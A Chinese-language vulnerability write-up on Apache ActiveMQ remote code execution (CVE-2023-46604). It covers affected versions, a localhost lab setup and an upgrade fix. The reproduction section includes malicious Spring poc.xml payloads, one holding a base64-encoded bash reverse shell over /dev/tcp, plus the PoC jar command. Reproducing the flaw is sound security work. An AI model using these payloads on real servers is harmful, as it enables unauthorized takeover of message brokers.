


# Apache ActiveMQ 远程代码执行漏洞 CVE-2023-46604

## 漏洞描述

Apache ActiveMQ 是 Apache 软件基金会研发的一个开源消息中间件，为应用程序提供高效的、可扩展的、稳定的和安全的企业级消息通信。

当未经身份认证的攻击者访问 Apache ActiveMQ 的 61616 端口时，可通过发送恶意数据在远程服务器上执行代码，进而控制 Apache ActiveMQ 服务器。

更新日期：2023-10-25

参考链接：

- https://activemq.apache.org/activemq-5016006-release
- https://github.com/Fw-fW-fw/activemq_Throwable

## 漏洞影响

```
Apache ActiveMQ 5.18.0 < 5.18.3
Apache ActiveMQ 5.17.0 < 5.17.6
Apache ActiveMQ 5.16.0 < 5.16.7
Apache ActiveMQ < 5.15.16
Apache ActiveMQ Legacy OpenWire Module 5.18.0 < 5.18.3
Apache ActiveMQ Legacy OpenWire Module 5.17.0 < 5.17.6
Apache ActiveMQ Legacy OpenWire Module 5.16.0 < 5.16.7
Apache ActiveMQ Legacy OpenWire Module 5.8.0 < 5.15.16
```

## 环境搭建

在 ActiveMQ 官方下载 5.16.6 版本安装包，链接：https://activemq.apache.org/activemq-5016006-release

解压安装包，在目录 ./apache-activemq-5.16.6/bin/linux-x86-64 下以控制台模式启动，方便排查报错信息，注意使用 jdk 11：

```
./activemq console
```


访问 8161 端口管理页面：


## 漏洞复现

编写 poc.xml，托管在 8080 端口。开启 http 服务：

```
python3 -m http.server 8080
```


执行命令：

```
touch /tmp/success
-------
base64编码：dG91Y2ggL3RtcC9zdWNjZXNz
```

poc.xml（注意缩进）：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,dG91Y2ggL3RtcC9zdWNjZXNz}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

使用 [poc](https://github.com/Fw-fW-fw/activemq_Throwable) 进行复现：

```
java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8080/poc.xml
```

成功执行 `touch /tmp/success`：



反弹 shell 的 poc.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
                
            </list>
        </constructor-arg>
    </bean>
</beans>
```



## 修复建议

根据影响版本中的信息，排查并升级到安全版本，或直接访问参考链接获取官方更新指南。补丁下载链接：https://github.com/apache/activemq/tags
